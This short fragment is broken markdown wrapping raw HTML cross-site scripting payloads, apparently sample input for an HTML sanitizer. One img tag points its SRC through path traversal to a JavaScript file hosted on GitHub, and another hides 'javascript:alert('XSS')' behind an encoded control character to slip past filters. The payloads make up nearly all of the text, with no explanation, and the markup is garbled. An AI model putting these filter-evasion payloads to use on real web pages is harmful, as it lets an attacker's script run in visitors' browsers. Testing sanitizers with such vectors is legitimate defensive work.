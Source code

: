 ![

<img SRC=../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js?< B >
<img SRC=" &#14; javascript:alert('XSS');">

](()
